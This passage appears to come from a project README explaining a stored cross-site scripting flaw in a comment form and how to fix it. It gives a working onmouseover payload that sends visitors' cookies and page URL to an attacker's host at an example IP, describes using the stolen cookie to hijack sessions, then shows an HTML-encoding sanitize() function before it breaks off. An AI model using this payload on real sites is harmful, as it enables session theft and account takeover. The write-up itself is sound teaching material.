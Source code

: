 - **Client side**
 
Since the input of the comment is not sanitized, and having created an account, the attacker can post scripts, like the one below, in the post form
```html
<p onmouseover="window.location='http://<your local ip>:<port>/?c='+document.cookie+'&u='+window.location.href;">Innocent comment :)<p>
```
*Lets assume a imaginary IP of 192.169.19.16 and use the default port of de tool of 5000, resulting in*
```html
<p onmouseover="window.location='http://192.169.19.16:5000/?c='+document.cookie+'&u='+window.location.href;">Innocent comment :)<p>
```
This carefully crafted comment, is nothing more than a simple HTML element containing a **event attribute** *(since dynamically inserted <script></script> tags as not executed by the browsers)* that triggers the Javascript code bellow.
```javascript
window.location='http://192.169.19.16:5000/?c='+document.cookie+'&u='+window.location.href;
```
    
What this code does is, when a user **drags the mouse over the exploited comment**, send a **GET request** to our **cookie_capture_tool microservice**, passsing the **users cookie** and current **webpage URL**. The tool will **write the cookie to a text file**, and **ridirect the user back** to the **url** were the user was. Since this is done very quickly, to the average user just appears as the page is reloading

After this, is just a question of openning a the developer _Developer tools_ in a the browser openned in the website and inserting the captured cookie, for that point on we can interact with the website as if we were the other user

## Mitigation

- How do we fix it ?

Even though XSS can result in pretty severe security flaws, it's mitigation is quite simple, only requiering carefully sanitization of user input, and neutralization of the fields that users are not supposed to input data into, this can include **form inputs** but also **GET parameters** by modifying the **URL** . (this second does not apply to this case)

The principal goal of sanitizing against **XSS** it to know how to **escape** the most obvious **symbols** used in **HTML** so the website, when inserting the user generated content **does not** assumes it as an **HTML entity**.

This is done by converting this particular sign to their respectively **Unicode** codes; by doing this they are not assumed to be the same as the rest of the symbols in the HTML code, but the **browser** can still **translate them to their corresponding characters**

In sum, we must **convert** the symbols that can be perceived as a **HTML entities** and translate them to **Unicode** characters

This is done in the **sanitize()** function in **main**
```javascript
function sanitize(comment) {
    return String(comment).replace(/[^\w. ]/gi, function (c) {
        return '&#' + c.charCodeAt(0) + ';';
    });
}
````
With this the previous codes suffers the following changes:

